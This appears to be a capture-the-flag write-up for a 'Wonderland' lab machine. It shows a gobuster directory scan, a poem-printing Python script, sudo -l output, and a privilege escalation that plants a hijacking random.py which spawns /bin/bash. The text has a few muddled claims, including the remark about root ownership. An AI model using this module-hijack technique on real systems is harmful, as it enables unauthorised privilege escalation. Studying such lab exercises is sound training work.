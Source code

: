 ```gobuster dir -r -k -x .php,.txt,.html -r -k --wordlist ~/tools/SecLists/Directory-Bruting/raft-small-directories.txt --url 10.10.153.28/r/a/```  
A dismal thing to do!"
"The night is fine," the Walrus said
"Do you admire the view?

"It was so kind of you to come!
And you are very nice!"
The Carpenter said nothing but
"Cut us another slice:
I wish you were not quite so deaf —
I’ve had to ask you twice!"

"It seems a shame," the Walrus said,
"To play them such a trick,
After we’ve brought them out so far,
And made them trot so quick!"
The Carpenter said nothing but
"The butter’s spread too thick!"

"I weep for you," the Walrus said.
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one.""" """

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)

```

Running
```sudo -l```
```
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```  
So we can only execute python3.6 and this one script... Which is a poem with imported module ```random```  
When we execute this script with ```python3 walrus_and_the_carpenter.py``` we see it prints random 10 lines of this poem.  

Is there a way we can't escalate privileges then? Yes there is.  
We can create a file in the same directory where the script file is called ```random.py```, this way, instead of importing the actual ```random module``` python interpreter will import the file that we've created, and because the script ```walrus_and_the_carpenter.py``` is owned by root, we may have the possibility of privesc.

Let's create random.py script with contents:
```python
import os

os.system('/bin/bash')
```